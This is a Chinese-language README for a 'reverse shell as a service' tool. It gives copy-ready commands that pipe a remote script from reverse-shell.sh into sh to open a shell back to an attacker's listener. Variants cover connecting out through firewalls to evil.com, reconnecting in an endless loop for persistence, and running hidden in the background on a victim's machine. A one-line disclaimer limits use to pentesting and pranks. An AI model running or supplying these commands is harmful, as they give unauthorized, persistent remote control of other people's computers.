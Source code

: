 <div align="center">
	<br>
	<a href="https://reverse-shell.sh" target="_blank">
		<img width="128" src="favicon.ico" alt="keyv">
    </a>
</div>

# 反弹shell

> 反弹Shell即服务 - https://reverse-shell.sh

[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)
[![GitHub Donate](https://badgen.net/badge/GitHub/Sponsor/D959A7?icon=github)](https://github.com/sponsors/lukechilds)
[![Bitcoin Donate](https://badgen.net/badge/Bitcoin/Donate/F19537?icon=bitcoin)](https://lu.ke/tip/bitcoin)
[![Lightning Donate](https://badgen.net/badge/Lightning/Donate/F6BC41?icon=bitcoin-lightning)](https://lu.ke/tip/lightning)

易于记忆的反弹Shell，应该适用于大多数Unix系统。

检测目标上的可用软件并运行适当有效的Payload。

## 用法

### 1. 监听连接

在你的计算机上，打开一个端口并监听它，你可以使用netcat轻松做到这一点。

```shell
nc -l 1337
```
### 2. 在目标上执行反弹Shell

在目标计算机上，将 https://reverse-shell.sh/yourip:port 的输出通过管道符传输到sh。

```shell
curl https://reverse-shell.sh/192.168.0.69:1337 | sh
```

回到你的机器，你现在应该有一个Shell提示符了。

### 3. 不要乱搞

这旨在用于渗透测试或帮助同事了解为什么他们应该始终锁定计算机。请不要将其用于任何恶意行为。

## 一个小Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## 小技巧

### 主机名

你可以使用主机名代替IP。

```shell
curl https://reverse-shell.sh/localhost:1337 | sh
```

### 远程连接

因为这是一个反弹连接，所以它是可以穿透防火墙并连接到互联网。

你可以在 evil.com 上侦听服务器上的连接，并通过以下命令从安全网络内部获取反向 shell：

```shell
curl https://reverse-shell.sh/evil.com:1337 | sh
```

### 重新连接（权限维持）

默认情况下，当 shell 退出时，您将失去连接。您可能会意外地使用无效的命令执行此操作。您可以轻松地创建一个 shell，该 shell 将尝试通过将其包装在 while 循环中来重新连接。

```shell
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```

如果你对同事这样做，要小心，如果他们离开办公室时仍然在运行，你就会让他们受到攻击。

### 作为后台进程运行

终端会话需要保持打开状态才能保持反向 shell 连接。如果你想恶作剧同事，这可能有点暴露了。

以下命令将在后台进程中运行反向 shell 并退出终端，从而在受害者的计算机上不会打开任何看起来可疑的终端窗口。

确保在新的终端窗口中运行此命令，否则您将丢失现有会话中的任何工作。

```shell
sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT © Luke Childs
